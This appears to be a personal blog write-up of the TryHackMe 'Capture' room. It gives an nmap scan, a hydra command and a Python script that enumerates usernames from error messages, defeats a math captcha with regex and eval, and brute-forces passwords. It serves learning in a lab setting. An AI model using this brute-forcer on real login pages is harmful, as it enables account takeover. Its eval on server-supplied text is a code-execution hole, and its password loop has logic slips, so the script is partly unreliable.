 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "Python"
---
```


# Capture
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login usernames and password that will be used to brurteforce into the login form !

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website and its a login page, tried the usual default usernames and passwords. I noticed that it does say if the username exists or not!


## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha, for this I need to build a script!.


## Script
For writting the script i used the below walkthrough to guide me in writting and understanding the process:
- [l1asis](https://github.com/l1asis/thm-writeups/blob/main/Capture/Capture.md)
- [BabdCatha](https://github.com/BabdCatha/Capture/blob/main/capture_username.py)
- [Anthony J. Saab](https://blog.anthonyjsaab.com/writeup-for-tryhackmes-capture-room)

Things i kept in mind while trying to build the script in python:
1. Finding the captcha [regex will be used]
2. Solving the captcha [using eval function in python]

### Reading the files
First I need to read the files to retrieve the usernames and passwords. When using the read function its important to add the splitlines. I learned the hard way why its important.
```python
## opening the username.txt to get the users
with open('usernames.txt', 'r') as file:
    usernames = file.read().splitlines()

## opening the passwords.txt to get the password
with open('passwords.txt', 'r') as file:
    passwords = file.read().splitlines()
```


### Requesting 
I made the function 'send_request' to send a request to the server for authentication with the username, password and captcha as None. Captcha is none cause by default there is no captcha in the first few attempts then it starts asking for it. if I do get the captcha then I add it as an argument in the request.
```python
def send_request(username, password, captcha=None):
    data = {
    "username":username,
    "password":password
    }
    # if I get captcha
    if captcha:
        data.update({"captcha":captcha})

    response = requests.post(url=url, data=data)
    return response
```
### Solving Captcha function
This part solves my first concern, the regex expression is used to find captcha string in the html server reponse and the output will be used in the solve captcha functino. The function solve_captcha takes in the reponse, finds the captcha then returns the solved answer to be passed into the request.

```python
# Regular expression to find captcha string in the html server response
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")

# solving captcha using eval
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Checking if user already exists
I created the get_user function to get the existing user before start bruteforcing the password, this helps by not wasting time. First I sent a request with each user and password as "None" since I only care about the username. I call the solve_captcha function and pass the response as an argument. After solving the captcha I send another request with the same user in loop and check if the user is valid. If the username exists it will return to be used for the next step finding the password.

```python
def get_user():
    for user in usernames:
        response = send_request(user, "None")
        captcha = str(solve_captcha(response))
        data = {
        "username":user,
        "password":'test',
        "captcha":captcha
        }
        response = requests.post(url=url, data=data)
        valid = not re.search(r'The user (.*?) does not exist', str(response.content))
        if valid:
            print(f"[+] Found username : {user}")
            return user
```

### Finding the password!
The Attack function starts by calling the get_user function, After I pass the user as an argument for the send_request function. After solving the captcha I send another request with the valid user but with different password in a loop till the correct password is found!


```python
def attack():
    user = get_user()
    response = send_request(user, "None")
    captcha = str(solve_captcha(response))
    for password in passwords:
        response = send_request(user, password, captcha)
        valid = not re.search(r'Invalid password for user', str(response.content))
        if valid:
            print(f"[+] Found username : {user}")

        # give the previous captcha
        if not "Invalid password" in response.text:
            print(f"[+] Success! Username:{user} Password:{password}")
        # but what if its error? means captcha not working !
        else:
            captcha = solve_captcha(response)
```

## Final words
This was annoying to write specially since i dont fully get the Regular expression module is confusing. Using the search function solved the issue were if not does not exist in content brute force password does not recognize the valid username. The full code can be found in my [gitbook](https://atomic-5.gitbook.io/atoms-handbook/pylix/brute-forcing-login-with-mathematical-captcha)
